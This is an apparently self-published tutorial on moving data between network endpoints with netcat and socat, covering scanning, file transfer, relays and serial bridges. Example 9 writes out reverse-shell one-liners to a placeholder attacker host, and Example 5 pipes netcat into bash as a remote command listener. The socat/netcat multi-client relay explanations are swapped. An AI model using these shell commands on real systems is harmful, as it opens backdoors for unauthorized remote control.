










---
tags:
  - socat
  - netcat
---

# Data Piping: data transfer with ```netcat``` and ```socat```

Data piping allows us to seamlessly transfer data between network endpoints using lightweight tools like Netcat and Socat. 

We cover:

- netcat 
- socat
- comparision of netcat and socat
- various use-cases

---
## 1. What is data-piping?

- Data piping is the process of transferring data directly from one network endpoint or process to another, usually without altering the data itself. 

- Data piping is useful when we need a quick, lightweight way to move data between systems or applications without the overhead of complex protocols or encryption

- Tools like ```Netcat``` and ```Socat``` make data piping simple and flexible, helping sysadmins and developers troubleshoot and automate tasks efficiently.



---
## 2. ```netcat``` basics

- Netcat = NETwork CAT (like the Unix cat command, but for network streams)

- ```netcat``` is a handy tool for quick testing and debugging of network connections. Before we delve into real data-piping, this section covers basics of ```netcat``` utility.

- Netcat (often abbreviated as ```nc```) is a networking utility used for reading from and writing to network connections using TCP or UDP protocols.

- It is sometimes referred to as the **Swiss Army knife** of networking because of its wide range of functions including port scanning, file transfer, creating backdoors, and debugging network services.

- Primary Uses:

	Establishing TCP/UDP connections<br>
	Port scanning and banner grabbing<br>
	Creating simple client-server applications<br>
	Transferring files over the network<br>
	Network debugging and testing<br>


### 2.1 ```netcat``` usage examples
Connecting to a remote host (client mode):



=== "command"
	```console
	nc google.com 80
	```

=== "Explaination"
	
	- Netcat opens a raw TCP connection to Google’s web server on port 80.
	- When you connect to a web server on port 80, the server expects a valid HTTP request.
	- If you don’t type anything, the connection is open but idle, so nothing happens and it looks “stuck.”

	- Once connected, try typing the following HTTP request manually:<br>
	```GET / HTTP/1.1```
	(Press ```Enter``` after typing these lines)
	
	- the server responds with the HTTP response headers and HTML content, which Netcat shows in your terminal.
	
### 2.2 Port scanning
Port scanning is the process of checking which ports on a target machine are open and listening for connections. 

=== "Port scanning examples"
	```console
	nc -zv github.com 20-30
	or
	nc -zv -w 2 github.com 20-30
	
	or 
	
	To check if DNS port is open
	nc -zvu 8.8.8.8 53
	
	Expected output:
	Connection to 8.8.8.8 53 port [udp/domain] succeeded!
	```
	
=== "Exaplaination"

	-z tells Netcat to just scan without sending data.<br>
	-v enables verbose output (shows results).<br>
	- example.com is the target host.<br>
	- 20-30 is the port range to scan.<br>
	- -w for timeout<br>

=== "Example 2"

```console
for port in {20..30}; do nc -zv -w 1 target_host $port; done
```

	
Note:<br>
**```nmap``` is a specialized, more powerful network scanner designed specifically for discovering hosts, open ports, and services**


### 2.3 Banner grabbing
Banner grabbing is the technique of connecting to a service on a port and grabbing its initial response (banner), which often contains info like software version, service name, etc.

=== "Grab HTTP banner"
	```console
	$ nc google.com 80
	HEAD / HTTP/1.0
	```

=== "Grab SSH banner"
	```console
	$ nc github.com 22
	```

**Note:**

- For many protocols (like SSH, SMTP), the server sends the banner immediately after connection.
- For HTTP and some others, We have to send a valid request first (like HEAD / HTTP/1.0 or GET / HTTP/1.1 + headers).


### 2.4 Creating tcp/udp servers and clients

- ```netcat``` can be used to create a tcp/udp client or server.
- Its a handy tool that can be used for simple tasks and/or debugging; instead of creating custom programs in lanugages like Python etc. to create sockets, ```netcat``` can be used on Linux systems.





=== "TCP Server and Client"
	Server:
	```console 
	nc -l -p 12345
	```
	-l: listen mode (server)<br>
	-p: 12345 specifies the port

	Client:
	```consolde
	nc <server-ip> 12345
	e.g.
	nc 127.0.0.1 12345
	```

=== "UDP Server and Client"
	Server:
	```console
	nc -u -l -p 12345
	```
	```-u```: use UDP instead of TCP<br>
	```-l```: listen mode(server)<br>
	```-p``` 12345: specifies the port
	
	

	Client:
	```console
	nc -u <server-ip> 12345
	e.g. 
	nc -u 127.0.0.1 12345
	```

**Note: when server and client are connected, they start sending data to each other (whatever we type)**<br>
(so it works as a mini chat application)

### 2.5 Send/receive file using ```netcat```

=== "Receiver (receive a file)"
	```console
	nc -l -p 1234 > received.txt
	```

	```-l```: listen for incoming connection<br>
	```-p``` 1234: port number<br>
	```>``` received.txt: save incoming data to received.txt<br>

=== "Sender (send a file)"
	```console
	nc <receiver_ip> 1234 < example.txt
	```
	
	```<receiver_ip>```: replace with receiver’s IP address<br>
	```< example.txt```: send contents of the file <br>
	
### 2.6 Test/debug network connectivity

```consolde
nc -zv <target_ip> 80
```

```-z```: zero-IO mode (dont send data)<br>
```-v```: verbose (show results)<br>
```80```: port to test (e.g. HTTP)<br>


=== "connectivity"
	```nc -zv google.com 80```
	
	Response is:<br>
	Connection to google.com (64.233.170.102) 80 port [tcp/http] succeeded!

=== "server response"
	Server:
	```nc -l -p 9999```
	
	Client:
	```echo "Hello" | nc <listener_ip> 9999```
	
	We should see "Hello" printed on the server
	
=== "firewall rules"
	```nc -zv <target_ip> 22```
	
	if it fails, the port might be filtered or closed
	
=== "DNS resulotion"
	a) Create a dns query file. Type following:<br>
	```consolde
	echo 'AA AA 01 00 00 01 00 00 00 00 00 00 06 67 6F 6F 67 6C 65 03 63 6F 6D 00 00 01 00 01' | xxd -r -p > dns_query.bin
	```
	This creates a file file dns_query.bin asking a google.com record.
	
	b)Send query to dns server
	```console
	cat dns_query.bin | nc -u -w 2 8.8.8.8 53 > dns_response.bin
	```
	c) Read the dns response
	```console
	xxd dns_response.bin
	```
	
	**Note: ```dig +short google.com``` is a more powerfule alternative to finding DNS**


---
## 3. Automating ```netcat``` with pipes
Automating with pipes allows us to chain commands together and use Netcat as part of a larger shell pipeline.

### Example 1: grep a message
```console 
echo "Hello Server" | nc example.com 1234 | grep "response"
```
- Sends "Hello Server" to example.com on port 1234<br>
- Pipes the response through grep to filter lines containing "response"


### Example 2: receive and save a file

Receiver:
```console 
nc -l 1234 > received_file.txt
```
Sender:
```console
cat file_to_send.txt | nc receiver_host 1234
```

### Example 3: simple chat using pipes



Machine A:
```consolde
nc -l 10000 | tee >(nc host_A_ip 10001)
```
- Listens on port 10000<br>
- Pipes output to nc connecting to host_A_ip:10001<br>

Machine B:
```console
nc machine_A 10000 | tee >(nc host_B_ip 10000)
```
- Connects to machine_A:10000 <br>
- Pipes output to nc connecting to host_B_ip:10000<br>

**Note about ```tee```**:
tee is a Linux command that reads from standard input and writes the output simultaneously to both standard output and one or more files.


### Example 4: Stream logs to a remote server
```console
tail -f /var/log/syslog | nc remote_host 9999
```
- Continuously streams system logs to remote_host on port 9999 <br>
- On the remote end: ```nc -l 9999 > received_syslog.log``` 

### Example 5: remote command execution listener

Listener:
```console
nc -l 4444 | bash
```

Sender:
```console
echo "uptime" | nc target_host 4444
```

-You can send any shell command to be executed remotely. <br>
-Dangerous if exposed to the internet — useful in internal networks or demos.

### Example 6: file compression before sending

Sender:
```console
tar czf - myfolder/ | nc remote_host 7777
````

Receiver:
```console
nc -l 7777 | tar xzf -
```

Note:<br>
This is a command to extract a gzip-compressed tar archive from standard input (stdin); meaning the data is coming through a pipe or stream, not from a file on disk.

### Example 7: netwrok based clipboards
(Copies content from your machine to clipboard of another machine.)

Receiver:
```console
nc -l 9898 | xclip -selection clipboard
```

Sender:
```console
xclip -o | nc remote_host 9898
```

### Example 8: Audio streaming

Sender:
```console
arecord -f cd | nc receiver_host 5050
```

Receiver:
```console
nc -l 5050 | aplay
```

- Sends raw audio over the network in real time.
- ```arecord```: records audio from a microphone or input device and saves it to a file or streams it elsewhere.
- ```aplay```: plays audio files (usually .wav) to the default audio output (like speakers).


### Example 9: Create a basic reverse shell using pipes

Reverse shell is a shell that connects from the victim machine to the attacker's machine, giving the attacker remote command-line access.

```console
bash -i >& /dev/tcp/attacker_ip/4444 0>&1
```

- Opens an interactive bash shell (bash -i)
- Redirects the shell's input and output over a TCP connection to attacker_ip:4444
- Gives the attacker remote shell access to the machine


Machine A (victim):
```console
bash -i >& /dev/tcp/attacker_ip/4444 0>&1
```
or
```console
nc attacker_ip 4444 -e /bin/bash
```

⚠️: Careful....this is how backdoors can be created


Victim machine:

- Runs the reverse shell command (e.g., bash -i >& /dev/tcp/attacker_ip/4444 0>&1 or nc attacker_ip 4444 -e /bin/bash).
- This launches a shell process (like bash) whose input/output is redirected over the network.

Attacker machine:

- Runs a listening program (usually nc -lvp 4444) that waits for the victim to connect.
- When the connection is established, the attacker’s terminal becomes the interactive terminal for the victim’s shell.

### Example 10: Chain netcat with dialog or fzf
```console
dialog --inputbox "Enter command to run remotely:" 10 50 2>cmd.txt
cat cmd.txt | nc remote_host 1234
```
(Makes your interaction more UI-driven in the terminal.)

### Example 11: Chat with time stamps

Receiver-Machine A:
```console
nc -l 12345 | while IFS= read -r line; do echo "$(date): $line"; done
```

Sender-Machine B:
```console
while IFS= read -r line; do echo "$line"; done | nc receiver_host 12345
```
### Example 12: encrypt data
(securely transfers data)

Sender:
```console
tar czf - myfolder | openssl enc -aes-256-cbc -salt -k password | nc receiver_host 9999
```

Receiver:
```console
nc -l 9999 | openssl enc -aes-256-cbc -d -k password | tar xzf -
```

### Example 13: Stream webcam video with ffmpeg

Sender:
```console
ffmpeg -f v4l2 -i /dev/video0 -f mpegts -codec:v mpeg1video -s 640x480 -b:v 800k -r 30 - | nc receiver_host 1234
```

Receiver:
```console
nc -l 1234 | mplayer -fps 30 -cache 1024 -
```

### Example 14: Sends one snapshot of top for remote monitoring

```console
top -b -n 1 | nc monitoring_host 4000
```

### Example 15: Transfer an SSH key securely
```console
cat ~/.ssh/id_rsa.pub | nc remote_host 2222
```

## 4. ```socat``` 
(Socat = SOcket CAT)

We covered ```netcat``` in the previous section; it is useful for following purposes:

- file transfers
- reverse/back shells
- port scanning
- basic chatting
- for simplicity and speed


```socat``` is an advanced version of netcat.
It connects two arbitrary data streams, usually sockets — even different types.

Used for:

- building encrypted tunnels
- port forwarding
- serial-to-network bridging
- UNIX socket communication
- PTY (interactive shell) support
- building complex automation or integration tools


## 5. ```socat``` examples

Some example use-cases:

- A relay/proxy
- Serial port to network bridge
- UNIX socket to TCP bridge
- UDP-to-TCP protocol converter
- Bind a local port to a remote service (like a simple proxy)
- Port knocking handler / trigger
- TLS/SSL termination (acting as a simple TLS proxy)
- Accessing serial devices over the network (e.g., Arduino, modem)
-Creating a virtual serial port (PTY)
- Converting between IPv4 and IPv6
- Connecting legacy software with different socket expectations
- Traffic logging/sniffing between two endpoints
- Creating TCP honeypots (e.g., banner traps)
- Tunneling data over different protocols (e.g., stdin → TCP)
- Load balancing to multiple backend servers (manual round-robin)
- Isolating network services in containers via socket forwarding
- Remote shell access (like reverse shell but via socat)
- Turning any shell script into a network service

### 5.1 Relay/Proxy

#### 5.1.1  Single-client relay/proxy



=== "Using socat"

	Machine B(Receiver):
	```console
	socat -v TCP-LISTEN:9000,reuseaddr -
	```
	- Allows reusing the same port immediately after close
	
	
	Machine B(Forwarder):
	```console
	socat -v TCP-LISTEN:8000,reuseaddr,fork TCP:B_ip:9000
	```
	- Allows reusing the same port immediately after close
	
	
	Machine A(Sender):
	```console
	echo "Hello from A" | socat - TCP:F_ip:8000
	```
	When Machine A connects, socat forks a child process, which handls:<br>
	- Reading from A (source)<br>
	- Writing to B (destination); And vice versa (because socat is fully bidirectional)<br>

=== "Using netcat"

	Machine B(Receiver):
	```console
	nc -l 9000
	```

	Machine F(forwarder):
	```console
	nc -l 8000 | nc B_ip 9000
	```

	- Listens on port 8000 (for A)
	- Forwards everything received to B on port 9000

	Machien A(Sender):
	```console
	echo "Hello from A" | nc F_ip 8000
	```

#### 5.1.1 Multi-client TCP relay

Suppose you want to create a TCP relay (proxy) that:

- listens on a port (say 8000)
- accepts multiple simultaneous incoming client connections
- forwards each client’s data to a backend server (say at B_ip:9000)
- keeps connections alive independently without dropping others
- **difficult to achieve with netcat**

=== "socat"
	```console
	socat TCP-LISTEN:8000,reuseaddr,fork TCP:B_ip:9000
	```
	- this loop only processes one client at a time, sequentially.<br>
	- it waits for one connection to close before accepting the next.<br>
	- not scalable for real proxy use.

=== "netcat"
	```console
	while true; do nc -l 8000 | nc B_ip 9000; done
	```
	
	- automatically handles multiple clients concurrently.<rb>
	-eEach client handled by a child process, fully independent.

### 5.2 Serial port to network bridge
A serial port to network bridge lets you access a device connected via a serial interface (RS-232, UART, etc.) over a network (TCP/IP).



Device machine:
```console
socat TCP-LISTEN:12345,reuseaddr,fork FILE:/dev/ttyS0,raw,echo=0
```

Client machine:
```console
socat - TCP:device_ip:12345
```
the ```-``` means "standard input/output" (stdin/stdout).

### 5.3 UDP-to-TCP protocol converter
It’s a tool that receives data over UDP and forwards it over TCP, or vice versa, effectively bridging two different transport protocols.

Scenario:

- Some devices or services only support UDP (e.g., certain sensors, streaming protocols).
- Your network or application only supports TCP (firewall restrictions, reliable delivery).
- You want to bridge UDP-based data to a TCP-based client/server or vice versa.



UDP Sender:
```console
echo "Hello UDP" | socat - UDP-DATAGRAM:device_ip:5000
```

Device (the socat UDP to TCP bridge):
```console
socat -v UDP-RECV:5000 TCP-LISTEN:6000,reuseaddr,fork
```

TCP Receiver (client connecting to TCP port 6000):
```console
nc device_ip 6000
or 
socat - TCP:device_ip:6000
```

### 5.4: Tunnling data over different protocols

Scanario: For example, we want to send data from a command-line program’s standard input (stdin) over a TCP connection to a remote server that will receive and process it.

Receiver (server):
```console
socat TCP-LISTEN:5555,reuseaddr - > received_data.txt
```

Sender (client):
```console
ls -l /var/log | socat - TCP:server_ip:5555
```


**Tunneling ```stdin``` vs Reverse shell:**

| Aspect             | Tunneling stdin → TCP  | Reverse Shell                                 |
| ------------------ | ----- | -------------- |
| Purpose            | Send command output or arbitrary data remotely | Gain interactive remote shell access          |
| Interaction        | Usually one-way (command output to remote)     | Two-way interactive shell (commands + output) |
| Commands involved  | Any command producing output                   | Typically `/bin/bash` or similar shell        |
| Security & Control | Usually controlled data flow                   | Potentially full remote control of target     |


### 5.5: Creating a virtual serial port (PTY)

- We create a virtual serial port device that applications can open/read/write just like a real serial port.
- Data written to one end of the PTY can be read from the other end.
- Useful for testing, debugging, or bridging software that expects serial ports.


Why use it?

- To simulate serial devices without physical hardware.
- To connect two programs via a virtual serial link.
- To redirect serial communication over the network.
- To let legacy software communicate over modern interfaces.

**Scenario:**


- /dev/pts/X and /dev/pts/Y are the two linked virtual serial ports (PTYs).
- Data sent by Application 1 to PTY 1 appears on PTY 2, where Application 2 can read it, and vice versa.

**Step 1: App 1**
```console
cat /dev/pts/X
```


**Step 2: Create socat links**
```console
socat -d -d PTY,raw,echo=0 PTY,raw,echo=0
```
- Creates two virtual serial ports (PTYs) that are linked together bidirectionally.<br>
- PTYs are a two-way pipe.<br>
- Input/output depends on which side your application reads from or writes to.<br>

socat creates a full-duplex connection (data flows both ways).


**Step 3: App 2**
```console
echo "Hello from App2" > /dev/pts/Y
```


### 5.6 Socket forwarding in containers



Inside container:
```console
/path/to/myapp --socket /var/run/app.sock
```

Inside socat:
```console
socat TCP-LISTEN:8080,reuseaddr,fork UNIX-CONNECT:/var/run/app.sock
```

On the host:
(run any program)
```console
curl http://localhost:8080
```

### 5.7 Socket forwarding to a server (google)

Part 1: socat
```console
socat TCP-LISTEN:8080,reuseaddr,fork TCP:google.com:80
```

Part 2: test program
```console
curl http://localhost:8080

or
curl -H "Host: www.google.com" http://localhost:8080
(for fixing localhost page errors)

```


---
## 6. socat and netcat use-case comparision

| Use-case                                              | Netcat (`nc`)           | Socat                      |
|------------------------------------------------------|-------------------------|----------------------------|
| **A relay/proxy**                                    | ✅ Basic, limited       | ✅ Fully supported          |
| **Serial port to network bridge**                    | ❌ No                   | ✅ Yes                     |
| **UNIX socket to TCP bridge**                        | ❌ No                   | ✅ Yes                     |
| **UDP-to-TCP protocol converter**                    | ❌ No                   | ✅ Yes                     |
| **Bind a local port to a remote service (proxy)**   | ✅ Basic                | ✅ Fully supported          |
| **Port knocking handler / trigger**                  | ❌ No                   | ✅ Yes                     |
| **TLS/SSL termination (simple TLS proxy)**           | ❌ No (without patches) | ✅ Built-in TLS support     |
| **Accessing serial devices over the network**        | ❌ No                   | ✅ Yes                     |
| **Creating a virtual serial port (PTY)**             | ❌ No                   | ✅ Yes                     |
| **Converting between IPv4 and IPv6**                 | ❌ No                   | ✅ Yes                     |
| **Connecting legacy software with different socket expectations** | ❌ No                   | ✅ Yes                     |
| **Traffic logging/sniffing between two endpoints**  | ✅ Basic logging        | ✅ Advanced logging         |
| **Creating TCP honeypots (banner traps)**            | ✅ Yes                  | ✅ Yes                     |
| **Tunneling data over different protocols (stdin → TCP)** | ✅ Yes                  | ✅ Yes                     |
| **Load balancing to multiple backend servers**       | ❌ No                   | ✅ Possible (manual)        |
| **Isolating network services in containers (socket forwarding)** | ✅ Yes                  | ✅ Yes                     |
| **Remote shell access (reverse shell)**               | ✅ Yes                  | ✅ Yes                     |
| **Turning any shell script into a network service**   | ✅ Yes                  | ✅ Yes                     |

---
## Relevant links
[Protocol Bridges](forwarding-bridges.md)


